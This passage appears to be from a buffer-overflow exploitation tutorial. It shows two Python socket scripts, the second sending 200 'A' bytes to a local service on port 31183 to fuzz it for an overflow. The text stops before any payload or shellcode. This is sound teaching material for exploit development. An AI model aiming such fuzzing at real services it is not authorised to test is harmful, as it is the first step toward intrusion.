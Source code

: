 ![](images/2021-09-21-194604_1920x975_scrot.png)

## Setting up the Python Script

Now that we have EBD setup, let's start writing the Python script. 

```python
import socket
host = '127.0.0.1'
port = 31183

buffer = ''

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))
s.sendall(buffer)
s.shutdown(socket.SHUT_WR)
print(s.recv(1024))
s.close()
```

# Fuzzing the Program

Let's start by sending a buffer consisting of 200 A's and see if we can overflow a buffer. 

```python
import socket
host = '127.0.0.1'
port = 31183

buffer = b'A'*200

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))
s.sendall(buffer)
s.shutdown(socket.SHUT_WR)
print(s.recv(1024))
s.close()
```

